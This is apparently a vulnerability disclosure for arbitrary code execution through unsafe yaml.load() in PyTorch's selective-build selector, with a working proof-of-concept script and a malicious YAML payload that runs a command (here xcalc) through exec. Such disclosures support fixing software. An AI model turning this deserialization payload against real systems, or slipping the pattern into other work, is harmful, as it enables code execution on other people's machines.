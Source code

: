 # Description
**Arbitrary Code Excecution** in pytorch/tools/codegen/selective_build/selector.py.
Tensors and Dynamic neural networks in Python with strong GPU acceleration.
# Technical Description
This package was vulnerable to Arbitrary code execution due to a use of a known vulnerable function **load()** in **yaml**
# Exploit code
**Python File**
```python
import os
os.system('git clone https://github.com/pytorch/pytorch.git')
os.chdir('pytorch/')
from tools.codegen.selective_build import selector
exploit = """!!python/object/new:type
  args: ["z", !!python/tuple [], {"extend": !!python/name:exec }]
  listitems: "__import__('os').system('xcalc')"
"""
open('exploit.yml','w+').write(exploit)
selector.SelectiveBuilder.from_yaml_path('exploit.yml')
os.system('rm exploit.yml')
```
# POC
* Run the exploit code 

![](https://cdn.discordapp.com/attachments/749019614352244777/786332580811243550/Screenshot_from_2020-12-10_01-55-24.png)

